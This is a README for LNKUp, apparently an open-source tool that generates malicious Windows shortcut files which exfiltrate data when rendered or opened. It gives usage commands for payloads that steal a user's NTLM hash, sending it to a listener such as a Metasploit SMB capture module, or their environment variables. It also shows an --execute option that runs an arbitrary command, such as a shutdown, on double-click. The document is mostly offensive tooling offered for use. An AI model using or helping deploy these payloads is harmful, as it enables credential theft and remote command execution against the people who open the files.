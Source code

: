 # LNKUp
LNK Data exfiltration payload generator
---
This tool will allow you to generate LNK payloads. Upon rendering or being run, they will exfiltrate data.

## Installation
Install requirements using   
`pip install -r requirements.txt`


## Usage

#### Payload types:
* NTLM
	* Steals the user's NTLM hash when rendered.
	* Needs listener server such as this [metasploit module](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb)
	* More on NTLM hashes leaking: [https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/](https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/?utm_source=github_lnkup)
	* Example usage:   
	 `lnkup.py --host localhost --type ntlm --output out.lnk`
* Environment
	* Steals the user's environment variables.
	* Examples: %PATH%, %USERNAME%, etc
	* Requires variables to be set using --vars
	* Example usage:   
	 `lnkup.py --host localhost --type environment --vars PATH USERNAME JAVA_HOME --output out.lnk`
#### Extra:
* Use `--execute` to specify a command to run when the shortcut is double clicked
	* Example:   
	  `lnkup.py --host localhost --type ntlm --output out.lnk --execute "shutdown /s"`
